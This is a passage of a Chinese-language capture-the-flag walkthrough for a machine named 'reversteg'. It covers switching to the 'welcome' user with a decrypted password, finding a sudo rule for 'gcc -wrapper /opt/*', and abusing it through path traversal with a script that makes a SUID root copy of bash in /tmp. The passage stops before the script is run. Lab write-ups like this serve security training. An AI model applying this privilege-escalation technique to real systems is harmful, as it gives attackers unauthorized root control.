 **知识点补充**：凯撒密码是一种替换式密码，通过固定偏移量移动字母位置。XOR 加密具有对称性，即 `A XOR K = B` 时，`B XOR K = A`。

## 4.3 横向移动

尝试切换到 `welcome` 用户，组合解密的字符串作为密码：

```bash
$ su welcome
Password: ll104567bamuweta0eviden
$ bash
welcome@reversteg:/home$ id
uid=1001(welcome) gid=1001(welcome) groups=1001(welcome)
```

## 4.4 Sudo 提权分析

检查 `welcome` 用户的 sudo 权限：

```bash
welcome@reversteg:/home$ sudo -l
Matching Defaults entries for welcome on reversteg:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User welcome may run the following commands on reversteg:
    (ALL : ALL) NOPASSWD: /usr/bin/gcc -wrapper /opt/*
```

发现 `welcome` 用户可以无密码执行 `gcc -wrapper /opt/*` 命令。

**知识点补充**：`gcc` 的 `-wrapper` 参数允许指定一个包装程序，在编译过程中会先执行该包装程序。这个特性可以被利用来执行任意命令。

## 4.5 GCC Wrapper 提权利用

### 漏洞原理

`gcc -wrapper` 参数的设计初衷是为了在编译前后执行额外的处理程序，但当结合 sudo 权限和路径遍历时，可以突破 `/opt/*` 的限制：

1. 使用 `..` 进行路径遍历，指向 `/tmp` 等可写目录
2. 创建恶意脚本，利用 root 权限执行任意命令
3. 通过 SUID 二进制文件维持权限

### 利用步骤

创建提权脚本：

```bash
welcome@reversteg:/home$ cat > /tmp/a.sh << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
EOF
```

赋予执行权限：
